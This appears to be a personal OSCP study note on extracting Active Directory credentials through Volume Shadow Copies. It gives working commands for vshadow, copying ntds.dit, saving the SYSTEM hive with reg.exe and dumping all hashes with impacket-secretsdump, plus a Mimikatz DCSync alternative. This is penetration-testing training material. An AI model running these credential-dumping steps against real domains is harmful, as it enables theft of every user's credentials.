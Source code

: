 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/14-active-directory-movement/8-shadow-copies/","updated":"2024-01-05T11:37:06.207+01:00"}
---
```


------------------------
- Shadow Copy, a.k.a. Volume Shadow Service (VSS), is a Microsoft backup technology that allows for creation of snapshots of files and volumes.
- Managed through vshadow.exe.
- As a domain admin one can extract the AD NTDS.dit database file and extract credentials offline.

### Extract ntds.dit AD Database:
1. As domain admin in elevated Powershell run:
```
vshadow.exe -nw -p  C:
```
2. Copy the extracted file to root folder:
```
copy <shadow-copy-device-name>\windows\ntds\ntds.dit c:\ntds.dit.bak
```
3. Save the SYSTEM hive from windows registry:
```
reg.exe save hklm\system c:\system.bak
```
4. Move the two files to Kali and use Impacket to extract credentials:
```
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

### Alternative OpSec Method:
1. Compromise DC.
2. Get Mimikatz to machine.
3. Dump hashes for all users individually through DCSync attacks.